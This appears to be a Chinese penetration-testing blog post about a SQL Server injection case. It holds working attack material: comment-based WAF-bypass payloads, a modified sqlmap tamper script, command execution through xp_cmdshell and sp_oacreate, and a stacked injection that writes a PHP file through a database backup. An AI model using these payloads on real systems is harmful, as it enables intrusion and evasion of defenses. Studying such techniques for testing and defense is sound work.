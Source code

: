 ```yaml
---
title: SQL Server DBA WriteFile
layout: post
date: '2020-01-01'
permalink: "/archivers/2020-01-01/3"
description: 通常情况下，遇到SQL Server注入点，我会比较关注是否是DBA权限，如果是，那么就可能拿到执行命令的权限，进而反弹到Ｃ2上，方便后续的后渗透工作。
---
```


## 0x01 前言

本文非基础类的普及文章，主要分享内网中遇到的一个有趣案例。

## 0x02 Bypass注入点

通常情况下，遇到SQL Server注入点，我会比较关注是否是DBA权限，如果是，那么就可能拿到执行命令的权限，进而反弹到Ｃ2上，方便后续的后渗透工作。

一开始在一处比较复杂的功能点发现了SQL Server的注入，也是首先利用AND进行判断：

![2020-01-03-13-13-15](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/ff14d4d92d1d2c87226c80bf934d541f.png)

参数：ModuleType存在注入点，但是后面有一层站点全局输入的检测机制，从简单的测试来看，是不存在语法分析的一种，比较容易绕过。

我尝试了以下方案：

1. `and -> And`
2. `and -> /**/And`
3. `and -> /*xsww!s*/And`
4. `and -> /*xswwS1154-_[0)}!s*/And`
5. `and -> /***/And`

最终发现第五种可以绕过，使得后端无法辨别`/***/`是否和And是一个本体。

那么我猜想到了一个简单的表达式，似乎和这个过滤规则比较相向：`/*\w{0,}*/`

![2020-01-03-13-13-28](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/6698199e49414f5cdf5e0cb74725decb.png)

## 0x03 tamper 自动化实现

这里我比较懒，直接改了以下space2comment.py，这个脚本在Kali Linux中的sqlmap目录下：

![2020-01-03-13-13-37](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/b5b958529f18b8b570f16eca2cd1ac03.png)

核心代码：

``` python
for i in xrange(len(payload)):
            if not firstspace:
                if payload[i].isspace():
                    firstspace = True
                    retVal += "/**/"
                    continue

            elif payload[i] == '\'':
                quote = not quote

            elif payload[i] == '"':
                doublequote = not doublequote

            elif payload[i] == " " and not doublequote and not quote:
                retVal += "/**/"
                continue
```

只需要替换`/**/`即可：

![2020-01-03-13-13-49](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/cb7b577625d7a6106e39687558cdc6c7.png)

接着，就可以跑出注入了\~

PS：我比较习惯于添加`--random-agent`参数，理由是在注入的过程中，避免被流量感知设备发现。

![2020-01-03-13-14-00](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/1ea40c2f77061bc94c939aaf8a1c01a5.png)

## 0x04 xp_cmdshell

到这一步的时候，我遇到了一个问题，SQLMAP调用exec master..xp_cmshell的时候被拦截了，因为后端还检测是否有`exec`、`master`，于是我还要将tamper加两句：

```
payload = payload.replace("exec","/***/Execute/***/")
payload = payload.replace("master..","/***//***/")
```

最终结果：`/***/execute/***//***/xp_cmdshell/***/'whoami'`

点击发包，还是无法执行，被360拦截了！

![2020-01-03-13-14-22](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/fc6bd35eb07d11206d2bcf9ccb701553.png)

这个Error Code 5 ，是Windows的错误代码，中文意思就是：“拒绝访问”。

现在xp_cmdshell被拦截的很多了，但是sp_oacreate应该可以使用的：


参考我之前写的一篇文章：[Regsvr32 ole对象](https://payloads.online/archivers/2019-07-19/1)


```
declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'c:\windows\system32\cmd.exe /c whoami >C:\who.txt'
```

> 后续我发现该服务器无法出网，还是站库分离

**因此无法执行操作系统命令**

## 0x05 写入文件

在写文件这块，我浪费了大量的时间，首先要确定能否向站点目录写文件，当前写文件的操作是否被拦截等等因素。

一开始的思路是调用xp_cmdshell，采用echo去写，目前已无法执行命令，就此作罢，吸了一口芙蓉王，精神焕发，遂查到数据库备份的方式。

提交：

```
{"ClientType": "", "ClientGuid": "09a37ee1-5ec3-46db-9279-4cb066622e8d", "ModuleType": "A2501';use test222;create table [dbo].[test2] ([cmd] [image]);insert/***/into/***/test2(cmd) values(0x3c3f70687020706870696e666f28293b3f3e);backup database test222 to disk='C:\test2.bak' WITH DIFFERENTIAL,FORMAT;-- ", "IsBackEnd": false }
```

页面返回正常。

但是，我的站点目录如果是中文呢？在Burp里处理就非常麻烦！

还记得之前的IIS 7.5吗，**IIS在接收到一个请求后，会自动将数据进行Unicode解码，如果流量设备、WAF不支持此特性的话，就可以进行绕过**，这里我着重解决中文目录的问题。

![2020-01-03-13-14-38](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/259de32b7fe3faac8fa6bff186660e07.png)

到这此文就结束了，我并没有成功Getshell，只是回顾我解决问题的思维方式，希望能对大家有用！

